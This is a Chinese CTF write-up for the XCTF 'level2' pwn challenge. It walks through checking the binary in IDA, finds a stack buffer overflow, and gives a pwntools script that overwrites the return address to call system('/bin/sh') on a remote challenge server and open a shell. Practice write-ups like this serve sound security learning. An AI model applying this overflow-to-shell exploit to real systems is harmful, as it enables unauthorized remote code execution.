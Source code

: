 ```yaml
---
title: 攻防世界基础pwn
date: 2021-04-22 17:38:10
tags:
	- 攻防世界
	- pwn
		

---
```




# 攻防世界pwn

​	

## level2

放入虚拟机查看保护

![image-20210408182410326](https://s2.loli.net/2022/03/26/rs14pmzdLwROKfQ.png)

用file 命令查看文件

![image-20210408182434936](https://s2.loli.net/2022/03/26/hLc9gKdUWNRoGBJ.png)

是一个32位可执行文件，拖入对应的IDA查看![image-20220328202953101](https://s2.loli.net/2022/03/28/HeBTEUGIrlC3Pxv.png)

在main函数中看到一个**重要函数**，跟进查看

![image-20210408182657527](https://s2.loli.net/2022/03/26/wfFBCc7jbp6leAo.png)

可以看到这里的大小发生矛盾，会产生溢出，由于本人刚学习pwn，暂时看不出是什么溢出（菜是原罪）

接着就是上脚本了

```
from pwn import * 

r = remote("111.200.241.244",56981)
sysaddr=0x08048320
binshaddr=0x0804A024
payload='a'*(0x88+0x4)+p32(sysaddr)+p32(0)+p32(binshaddr)
r.sendline(payload)
r.interactive()
```

![image-20210408184430999](https://s2.loli.net/2022/03/26/zXcYl9hEVIQ2swH.png)

cat一下flag就出来了
